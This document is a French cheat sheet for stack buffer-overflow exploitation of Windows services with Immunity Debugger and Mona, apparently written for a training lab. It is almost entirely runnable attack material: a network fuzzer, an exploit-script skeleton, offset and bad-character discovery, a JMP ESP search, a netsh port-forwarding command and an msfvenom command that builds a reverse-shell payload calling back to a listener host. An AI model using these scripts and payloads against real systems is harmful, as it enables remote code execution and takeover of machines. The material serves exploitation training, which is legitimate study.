 # Exploitation Buffer Overflow avec Immunity Debugger et Mona

## Redirection de Port avec netsh

```bash
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=3333 connectaddress=127.0.0.1 connectport=4444 protocol=tcp
```

## Configuration de Mona dans Immunity Debugger

```bash
!mona config -set workingfolder c:\mona\%p
# %p = nom du fichier sans extension
```

## Fuzzing pour Déterminer la Taille du Buffer

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.220.0"
port = 9999
timeout = 5
prefix = "OVER "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing avec {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashé à {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

## Script d'Exploitation Initial

```python
import socket

ip = "10.10.220.0"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Envoi du buffer malveillant...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Fait !")
except:
  print("Connexion impossible.")
```

## Création d'un Pattern de Débordement

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

## Récupération de l'EIP après crash

```bash
/usr/bin/msf-pattern_offset -l 600 -q 35724134
```

## Recherche des Bad Characters

Dans Immunity Debugger :
```bash
!mona bytearray -b "\x00"
```

Génération d'une liste complète de badchars :
```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Comparaison avec Mona après exécution :
```bash
!mona compare -f C:\mona\brainpan\bytearray.bin -a <ESP_ADDRESS>
```

Possibles badchars additionnels : `\x0a\x0d`

## Trouver une Adresse de Jump ESP

```bash
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```

Adresse obtenue (exemple) : `\xaf\x11\x50\x62` (à inverser pour l'utiliser dans l'exploit).

## Génération du Shellcode

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.73.224 LPORT=4444 EXITFUNC=thread -b "\x00" -f py
```

## Ajout de NOPs (No Operation)

```python
nop_sled = "\x90" * 10
```

## Exploitation Finale

Injection dans le script d'exploit avec buffer structuré.
